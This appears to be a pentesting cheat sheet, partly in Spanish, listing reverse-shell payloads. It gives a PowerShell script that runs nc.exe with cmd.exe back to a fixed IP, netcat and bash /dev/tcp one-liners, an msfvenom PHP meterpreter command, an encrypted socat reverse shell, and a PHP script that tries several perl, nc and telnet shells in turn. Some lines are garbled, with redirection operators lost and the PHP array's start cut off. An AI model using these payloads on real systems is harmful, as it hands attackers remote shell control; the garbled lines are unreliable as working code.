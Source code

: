     Reverse connections
    • echo $secpasswd = ConvertTo-SecureString “password” -AsPlainText -Force > wget-runas.ps1
    echo $mycreds = New-Object System.Management.Automation.PSCredential (“username”, $secpasswd) >> wget-runas.ps1
    echo $computer = “hostname” >> wget-runas.ps1
    echo [System.Diagnostics.Process]::Start(“C:\tmp\nc.exe”,”192.168.168.168 443 -e cmd.exe”, $mycreds.Username, $mycreds.Password, $computer) >> wget-runas.ps1
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget-runas.ps1
    • Linux: os.system(‘nc 192.168.168.168 443 -e /bin/sh’)
    • Windows: nc -nlvp 443 -e cmd.exe

    Src: https://blackwintersecurity.com/tools/

    PHP
    Reverse shells
    • One line: /bin/bash -i > /dev/tcp/192.168.168.169/443 0&1
    • MSFvenom syntax: msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.168 LPORT=443 R > revshell.php

    Src: https://blackwintersecurity.com/tools/

    Execution through PHP webshell

    •
    •
    •
    •
    •

    Shell reversa / inversa mediante una conexión cifrada con socat
    Host que espera la conexión de la shell reversa (atacante):

    openssl req -sha512 -new -x509 -days 365 -nodes -out cert.pem -keyout cert.pem
    socat `tty`,raw,echo=0 openssl-listen:1999,reuseaddr,cert=cert.pem,verify=0

    Host que envía la shell al servidor del atacante (X.X.X.X):

    socat openssl-connect:X.X.X.X:1999,verify=0 exec:bash,pty,stderr,setsid

    Src: https://www.busindre.com/shell_reversa_cifrada_con_socat

    Best PHP Reverse Shell (from Guifre):

    /dev/tcp/’.$ip.’/’.$port.’ 0&1′,
    ‘0<&196;exec 196/dev/tcp/’.$ip.’/’.$port.’; /bin/sh &196 2>&196′,
    ‘/usr/bin/nc ‘.$ip.’ ‘.$port.’ -e /bin/bash’,
    ‘nc.exe -nv ‘.$ip.’ ‘.$port.’ -e cmd.exe’,
    “/usr/bin/perl -MIO -e ‘$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\””.$ip.”:”.$port.”\”);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while;'”,
    ‘rm -f /tmp/p; mknod /tmp/p p && telnet ‘.$ip.’ ‘.$port.’ 0/tmp/p’,
    ‘perl -e \’use Socket;$i=”‘.$ip.'”;$p=’.$port.’;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};\”
    );
    foreach ($reverse_shells as $reverse_shell) {
    try {echo system($reverse_shell);} catch (Exception $e) {echo $e;}
    try {shell_exec($reverse_shell);} catch (Exception $e) {echo $e;}
    try {exec($reverse_shell);} catch (Exception $e) {echo $e;}
    }
    system(‘id’);
    ?> 

¿Se entiende mejor así? 🙄